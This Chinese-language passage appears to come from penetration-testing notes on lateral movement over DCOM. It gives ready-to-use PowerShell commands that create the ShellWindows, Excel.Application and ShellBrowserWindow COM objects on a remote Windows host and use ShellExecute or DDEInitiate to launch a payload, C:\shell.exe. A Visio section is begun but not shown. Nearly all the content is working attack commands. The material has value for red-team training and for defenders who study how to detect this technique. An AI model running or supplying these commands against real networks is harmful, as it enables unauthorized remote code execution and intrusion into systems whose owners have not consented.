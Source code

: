 ### ShellWindows

`ShellWindows`组件提供了`Document.Application.ShellExecute`方法，适用于`Windows7`及以上的系统。

```powershell
# 由于ShellWindows对象没有ProgID，因此需要使用其CLSID来创建实例，通过OleViewDotNet可以找到ShellWindows对象的CLSID为9BA05972-F6A8-11CF-A442-00A0C90A8F39
# 通过PowerShell与DCOM进行远程交互，创建ShellWindows对象的实例
$com=[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"10.10.10.137"))

# 然后执行如下命令，我们就可以调用该对象的"ShellExecute"方法在远程主机上启动进程
$com.item().Document.Application.ShellExecute("cmd.exe","/c C:\shell.exe","C:\windows\system32",$null,0)

# 完整的命令
[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"10.10.10.137")).item().Document.Application.ShellExecute("cmd.exe","/c C:\shell.exe","C:\windows\system32",$null,0)
```

### Excel.Application

```powershell
# 通过PowerShell与DCOM进行远程交互，创建Excel.Application对象的实例:
$com = [activator]::CreateInstance([type]::GetTypeFromprogID("Excel.Application","10.10.10.137"))
$com.DisplayAlerts = $false

# 然后执行如下命令，我们就可以调用该对象的"DDEInitiate"方法在远程主机上启动进程:
$com.DDEInitiate("cmd.exe","/c C:\shell.exe")
```

### ShellBrowserWindow

`ShellBrowserWindow`中也存在一个`Document.Application.ShellExecute`方法，与`ShellWindows`一样，但不会创建新进程，而是通过已有的`explorer.exe`来托管子进程。适用于`Windows10`和`Windows Server 2012 R2`等版本的系统。

```powershell
# 通过PowerShell与DCOM进行远程交互，创建Excel.Application对象的实例:
$com = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","10.10.10.137"))

# 然后执行如下命令，我们就可以调用该对象的"shellExecute"方法在远程主机上启动进程:
$com.Document.Application.shellExecute("C:\shell.exe")

# 完整的命令:
[activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","10.10.10.137")).Document.Application.shellExecute("C:\shell.exe")
```

### Visio.Application

需要目标主机中安装有`Visio`。
